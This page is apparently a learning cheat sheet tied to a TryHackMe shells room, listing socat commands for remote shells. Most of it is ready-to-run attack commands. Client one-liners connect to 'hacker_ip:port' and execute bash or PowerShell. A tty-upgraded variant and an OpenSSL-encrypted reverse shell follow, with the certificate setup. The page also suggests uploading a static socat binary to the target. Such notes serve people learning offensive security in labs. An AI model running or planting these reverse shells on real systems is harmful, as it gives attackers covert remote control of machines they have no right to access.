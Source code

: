 # socat

[![introtoshells](../../../_badges/thmp/introtoshells.svg)](https://tryhackme.com/room/introtoshells)

[Go back](../index.md#remote-shell-)

<div class="row row-cols-md-2"><div>

socat is a command similar to netcat. Similarely to other wrappers, it can be used for a client or a server, but with socat, you will mostly use a wrapper for both sides.
</div><div>

🔥 On the target, you can upload a [static binary of socat](https://github.com/andrew-d/static-binaries/tree/master/binaries) as the command/executable is most likely not present.
</div></div>

<hr class="sep-both">

## TCP shell - stdin

<div class="row row-cols-md-2 mt-3"><div>

*Linux server*

```shell!
$ socat TCP-L:port -
```
</div><div>

*Linux/Windows Client*

```ps
$ socat TCP:hacker_ip:port EXEC:"bash -li"
PS> socat TCP:hacker_ip:port EXEC:powershell.exe,pipes
```
</div></div>

<hr class="sep-both">

## TCP shell - tty

<div class="row row-cols-md-2 mt-3"><div>

*Linux server*

```shell!
$ socat TCP-L:port FILE:`tty`,raw,echo=0
```
</div><div>

*Linux client*

```ps
$ socat TCP:hacker_ip:port EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
</div></div>

<hr class="sep-both">

## Encrypted shell 🔥

<div class="row row-cols-md-2 mt-3"><div>

You first need to generate a certificate:

```ps
$ openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
$ cat shell.key shell.crt > shell.pem
```
</div><div>

*Linux server*

```shell!
$ socat OPENSSL-LISTEN:port,cert=shell.pem,verify=0 [...]
```

*Linux client*

```ps
$ socat OPENSSL:hacker_ip:port,verify=0 [...]
```
</div></div>